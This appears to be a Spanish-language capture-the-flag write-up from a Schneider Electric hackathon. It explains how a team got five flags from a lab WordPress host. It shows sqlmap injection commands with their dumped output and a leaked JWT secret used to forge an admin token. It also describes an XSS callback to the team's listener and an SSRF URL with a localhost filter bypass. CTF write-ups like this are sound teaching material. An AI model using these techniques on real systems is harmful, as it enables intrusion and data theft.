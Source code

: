 # Hackathon NUWE - Schneider Electric

Nombres: 
- Gabriel Juan: [GabrielJuan349](https://github.com/GabrielJuan349)
- Anthony Michael Alonso: [AMAlonso64](https://github.com/AMAlonso64)
- Sergi Morales: [Mofitex](https://github.com/Mofitex)

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

Para encontrar el git hemos seguido estos pasos:
- url https definida en http://192.168.56.101/robots.txt
- Modificar el etc/hosts para añadir 192.168.56.101 wp.geohome.com
- Accediendo wp.geohome.com, se puede ver un link al github donde está el código fuente en el historial de commits.

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

Aprovechando la información del git donde muestra endpoints de register y login, hemos creado un usuario y nos hemos logeado para conseguir un access_token.
Con ese token lo hemos pasado por jwt.io y hemos modificado el usuario por admin, y definido la JWT secret key del github "Ge0HomeIsThePlaceWhereFantasyMeetsReality" y hemos conseguido un nuevo access_token.
Con ese nuevo token hemos hecho una petición postman apuntando al endpoint /admin, el endpoint /admin lo hemos recuperado con fuzz.
![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337
